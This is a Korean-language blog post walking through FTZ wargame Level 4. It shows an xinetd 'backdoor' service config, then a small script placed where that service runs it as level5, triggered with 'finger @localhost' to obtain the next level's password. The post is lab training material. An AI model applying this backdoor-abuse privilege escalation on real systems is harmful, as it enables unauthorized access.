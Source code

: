 ```yaml
---
layout: post
title: FTZ Level4
categories: [Wargame]
comments: true
---
```


```
[level4@ftz ~]$ cat hint
 
누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

/etc/xinetd.d폴더를 확인해 보자.

{% highlight bash %}
[level4@ftz ~]$ cd /etc/xinetd.d/
[level4@ftz xinetd.d]$ ls -al
total 88
drwxr-xr-x    2 root     root         4096 Jun 29 14:53 .
drwxr-xr-x   53 root     root         4096 Jul  8 12:21 ..
-r--r--r--    1 root     level4        171 Sep 10  2011 backdoor
-rw-r--r--    1 root     root          560 Dec 19  2007 chargen
-rw-r--r--    1 root     root          580 Apr 17  2003 chargen-udp
-rw-r--r--    1 root     root          417 Dec 19  2007 daytime
-rw-r--r--    1 root     root          437 Dec 19  2007 daytime-udp
-rw-r--r--    1 root     root          339 Dec 19  2007 echo
-rw-r--r--    1 root     root          358 Dec 19  2007 echo-udp
-rw-r--r--    1 root     root          317 Dec 19  2007 finger
-rw-r--r--    1 root     root          273 Dec 19  2007 ntalk
-rw-r--r--    1 root     root          359 Dec 19  2007 rexec
-rw-r--r--    1 root     root          376 Dec 19  2007 rlogin
-rw-r--r--    1 root     root          429 Dec 19  2007 rsh
-rw-r--r--    1 root     root          317 Sep 29  2004 rsync
-rw-r--r--    1 root     root          310 Dec 19  2007 servers
-rw-r--r--    1 root     root          312 Dec 19  2007 services
-rw-r--r--    1 root     root          406 Dec 19  2007 sgi_fam
-rw-r--r--    1 root     root          261 Dec 19  2007 talk
-rw-r--r--    1 root     root          305 Sep 10  2011 telnet
-rw-r--r--    1 root     root          495 Dec 19  2007 time
-rw-r--r--    1 root     root          515 Dec 19  2007 time-udp
{% endhighlight %}

이중 backdoor라는 파일이 의심스럽다.

{% highlight bash %}
[level4@ftz xinetd.d]$ cat backdoor 
service finger 
{
    disable        = no
    flags          = REUSE
    socket_type    = stream        
    wait           = no
    user           = level5
    server         = /home/level4/tmp/backdoor
    log_on_failure += USERID
}
{% endhighlight %}


살펴보면 finger서비스를 작동시킬때, level5의 권한으로 /home/level4/tmp/backdoor파일을 실행시킨다.

`xinetd`은 외부에서 서비스를 실행시킬 때 데몬이 대기하고 있어야 하는데, 여러 데몬을 기다리도록 만들 경우 낭비가 심하여 그를 해결하기 위한 관리 데몬이라 생각하면 될것 같다.

<http://lily.mmu.ac.kr/lecture/08sm/Fedora2/7jang/2.htm> 더 자세한 내용은 참고하면 됩니다.

finger서비스를 구동시켜야 하는데, finger @localhost를 실행할 경우 finger가 외부로 요청을 보내게 됩니다.

그 것을 localhost로 받기 때문에, 다시 돌아와 외부에서 실행하는 서비스로 수행하게 됩니다. 이 서비스를 level5의 권한으로 backdoor를 실행하게 됩니다.


{% highlight bash %}
[level4@ftz tmp]$ pwd
/home/level4/tmp
[level4@ftz tmp]$ ls
[level4@ftz tmp]$ 
{% endhighlight %}

tmp폴더를 확인해 보면 프로그램이 존재하지 않습니다. 직접 만들어야 합니다.

{% highlight bash %}
[level4@ftz tmp]$ cat > backdoor
#!/bin/bash
my-pass
[level4@ftz tmp]$ chmod +x backdoor
{% endhighlight %}

이렇게 프로그램을 작성해 줍니다.

{% highlight bash %}
[level4@ftz tmp]$ finger @localhost
^[[H^[[J
Level5 Password is "             ".
{% endhighlight %}

이렇게 서비스를 작동시켜 주게 될 경우 backdoor프로그램이 정상적으로 실행됩니다.
